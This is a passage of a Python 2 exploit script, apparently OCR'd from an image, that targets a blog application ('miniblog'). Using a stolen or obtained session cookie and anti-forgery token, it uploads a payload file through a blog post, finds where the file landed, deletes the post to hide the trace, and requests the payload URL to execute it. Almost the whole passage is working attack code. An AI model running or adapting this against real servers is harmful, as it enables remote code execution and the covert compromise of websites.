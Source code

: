 ```python
    '__RequestVerificationToken': login_token[1],
    'miniblog': session_cookie
})

post_url = post_res.text
post_res = requests.get(url + post_url, cookies = {
    '__RequestVerificationToken': login_token[1],
    'miniblog': session_cookie
})
uploaded = True
payload_url = None
m = re.search(r'img src="?(\/posts\/files\/(.+?)\.' + extension + ')"?', post_res.text)

if m is None:
    print '\033[1;31;40m[!]\033[0m Could not find the uploaded payload location'
    uploaded = False

if uploaded:
    payload_url = m.group(1)
    print '\033[1;32;40m[+]\033[0m Uploaded payload to {url}'.format(url = payload_url)

article_id = None  
m = re.search(r'article class="?post"? data\-id="?([a-zA-Z0-9\-]+)"?', post_res.text)
if m is None:
    print '\033[1;31;40m[!]\033[0m Could not determine article ID of new post. Automatic clean up is not possible.'
else:
    article_id = m.group(1)

if article_id is not None:
    m = re.search(r'name="?__RequestVerificationToken"?.+?value="?([a-zA-Z0-9\-_]+)"?', post_res.text)
    delete_token = m.group(1)
    delete_res = requests.post(url + '/post.ashx?mode=delete', data = {
        'id': article_id,
        '__RequestVerificationToken': delete_token
    }, cookies = {
        '__RequestVerificationToken': login_token[1],
        'miniblog': session_cookie
    })

    if delete_res.status_code == 200:
        print '\033[1;32;40m[+]\033[0m Deleted temporary post'
    else:
        print '\033[1;31;40m[!]\033[0m Failed to automatically cleanup temporary post'

try:
    if uploaded:
        print '\033[1;32;40m[+]\033[0m Executing payload...'
        requests.get(url + payload_url)
except:
    sys.exit()
```
